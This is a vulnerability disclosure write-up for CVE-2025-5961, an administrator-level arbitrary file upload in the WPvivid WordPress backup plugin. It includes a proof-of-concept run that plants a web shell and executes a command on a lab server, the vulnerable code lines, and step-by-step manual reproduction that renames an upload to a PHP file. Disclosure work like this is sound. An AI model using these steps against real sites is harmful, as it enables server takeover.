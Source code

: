 +++
title = 'Migration, Backup, Staging – WPvivid Backup & Migration <= 0.9.116 - Authenticated (Administrator+) Arbitrary File Upload'
date = 2025-07-02T00:00:00+00:00
hideToc = true
tags = ["CVE", "WordPress", "WPvivid"]
description = "CVE-2025-5961: WordPress WPvivid plugin authenticated file upload vulnerability allowing admin users to upload arbitrary files."
+++
### CVE-2025-5961

The [wpvivid-backuprestore](https://wordpress.org/plugins/wpvivid-backuprestore/) plugin does not sanitize the file types of the `wpvivid_upload_import_files` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server. NOTE: Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.


## TL;DR Exploits
* A POC [CVE-2025-5961.py](https://github.com/d0n601/CVE-2025-5961/blob/master/CVE-2025-5961.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.

```console
 python3 ./CVE-2025-5961.py https://lab1.hacker admin password
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
ajax_nonce: e4d4bec9f0
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab1.hacker/wp-content/wpvividbackups/ImportandExport/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 78309sec preferred_lft 78309sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86105sec preferred_lft 14105sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:63:2d:a4:f2 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details  
The `wpvivid_upload_import_files` action calls the `upload_files` function on line [2210](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2210) of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-export-import.php` without enforcing any file type validation. 

Line [2235](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2235) `$file_name` is set as follows:

```php
$file_name=basename(sanitize_text_field($_POST['name']));
```

The `$file_name` variable is then used on line [2246](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2246)  to write the file to the file system.

```php
$file_handle = fopen($path.$file_name, 'wb');
```

## Manual Reproduction
0. Create a malicious file to pass the front-end validation since we're doing this manually. Enter this into the terminal:
```bash
echo "<?php phpinfo(); ?>" >>  wpvivid-0000000000000_1969-04-20-00-00_export_post.zip
```
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Select `Export & Import` option from the side menu, and then select the `Import` tab.
3. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
4. Click the `Upload and Import` button, and select the `wpvivid-0000000000000_1969-04-20-00-00_export_post.zip` we created in step zero.
![test1](/posts/images/cve-2025-5961/1.png)
5. The first `POST` request will contain something like the following, forward this request along:
```
POST /wp-admin/admin-ajax.php HTTP/2
...
...
...
action=wpvivid_check_import_file&file_name=wpvivid-0000000000000_1969-04-20-00-00_export_post.zip&nonce=5c83c6b97b
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-5961/2.png)
7. Naviage to `https://THEWEBSITE.com/wp-content/wpvividbackups/ImportandExport/poc.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-5961/3.png)
